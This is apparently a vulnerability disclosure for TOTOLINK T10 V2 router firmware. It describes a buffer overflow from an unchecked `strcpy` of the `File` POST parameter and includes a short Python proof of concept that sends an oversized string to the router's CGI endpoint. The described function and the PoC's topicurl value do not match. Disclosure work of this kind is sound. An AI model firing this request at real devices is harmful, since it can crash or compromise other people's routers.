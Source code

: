 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/t10/

## Affected version

T10 V2_Firmware V2_V4.1.8cu.5207

## Vulnerability details

In the T10 V2_Firmware V2_V4.1.8cu.5207 firmware a buffer overflow vulnerability in the `UploadCustomModule ` function. The `v8` variable receives the `File` parameter from a POST request. However, since the user can control the input of `File`, the `strcpy(v15, v8);` can cause a buffer overflow vulnerability.

![image-20240902135434834](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902135434834.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {'topicurl' : "UploadFirmwareFile",
"File" : "a"*0x500000}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
